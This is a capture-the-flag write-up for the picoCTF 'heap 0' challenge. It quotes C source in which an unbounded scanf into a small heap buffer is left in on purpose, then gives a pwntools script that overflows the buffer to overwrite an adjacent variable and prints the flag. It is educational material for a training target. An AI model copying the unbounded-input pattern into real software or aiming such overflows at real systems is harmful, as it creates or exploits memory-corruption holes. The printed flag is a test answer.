

# heap 0 - Writeup

## Description


## Solution

For this task we are given the source code of the challenge.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap0!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	int rval = scanf("%d", &choice);
	if (rval == EOF){
	    exit(0);
	}
        if (rval != 1) {
            //printf("Invalid input. Please enter a valid choice.\n");
            //fflush(stdout);
            // Clear input buffer
            //while (getchar() != '\n');
            //continue;
	    exit(0);
        }

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}

```

We have two functions `print_heap` and `write_buffer` which respectively prints the content and writes data to the heap, also we have a function `check_win` that checks if `safe_var` is not set to `"bico"` which is its initial value, So in order to solve this task we should corrupt the heap by performing a heap overflow using the `write_buffer` function to get our flag.



## Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template chall --host tethys.picoctf.net --port 59125
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'chall')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'tethys.picoctf.net'
port = int(args.PORT or 59125)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No
# Debuginfo:  Yes

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvuntil(b'Enter your choice: ')
io.sendline(b'2')
io.sendline(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')

io.recvuntil(b'Enter your choice: ')
io.sendline(b'4')

io.recvuntil(b'YOU WIN\n')
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

```

## Flag

```
picoCTF{my_first_heap_overflow_749119de}
```
